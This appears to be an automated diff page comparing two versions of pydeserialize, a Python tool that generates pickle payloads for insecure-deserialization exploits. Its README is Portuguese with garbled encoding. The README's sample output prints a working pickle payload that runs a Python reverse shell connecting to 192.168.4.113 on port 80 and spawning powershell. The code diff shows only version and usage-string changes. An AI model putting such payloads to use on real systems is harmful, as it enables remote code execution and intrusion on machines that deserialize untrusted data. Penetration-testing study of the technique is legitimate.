  <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -14,22 +14,22 @@
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads para explora
 vulnerabilidades de desserializaÃ§Ã£o insegura em python # Forma de
 utilizaÃ§Ã£o ```sh pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
 pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
 para a ferramenta. Aqui estÃ£o todos os switches que ele suporta: ```yaml _ _ _
 _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_| _| |
-.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.8
+.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.9
 - @joaoviictorti options: -h, --help show this help message and exit -ip IP
 Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -o
 {Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install pydeserialize
 ``` # Executando pydeserialize ```console pydeserialize -ip 192.168.4.113 -p 80
 -o Windows -e shell _ _ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . |
 | | . | -_|_ -| -_| _| | .'| | |- _| -_| | _|_ |___|___|___|___|_|
-|_|__,|_|_|___|___| |_| |___| v0.0.8 - @joaoviictorti
+|_|__,|_|_|___|___| |_| |___| v0.0.9 - @joaoviictorti
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python
 -c \'import socket,subprocess,os;s=socket.socket
 (socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2
 (s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;
 pty.spawn("powershell")\'\x94\x85\x94R\x94.' ``` [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `pydeserialize-0.0.8/pydeserialize/pydeserialize.py` & `pydeserialize-0.0.9/pydeserialize/pydeserialize.py`

 * *Files 2% similar despite different names*

```diff
@@ -5,20 +5,20 @@
 def banner():
     return """                                                                                                                                                                                                                    
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|                                                                                                                                                                            
-     v0.0.8 - @joaoviictorti                                                   
+     v0.0.9 - @joaoviictorti                                                   
 """
 
 def argumentos() -> None:
     
-    parse = argparse.ArgumentParser(prog=banner(),usage="pydeserialize -ip 192.168.4.113 -p 80 -o Windows",formatter_class=RawTextHelpFormatter)
+    parse = argparse.ArgumentParser(prog=banner(),usage="pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell",formatter_class=RawTextHelpFormatter)
     parse.add_argument("--version",action="version",version="pydeserialize 0.0.7")
     parse.add_argument("-ip",action="store",type=str,dest="ip",required=True, help="Insert ip")
     parse.add_argument("-p",action="store",type=str,dest="port",required=True, help="Insert port")
```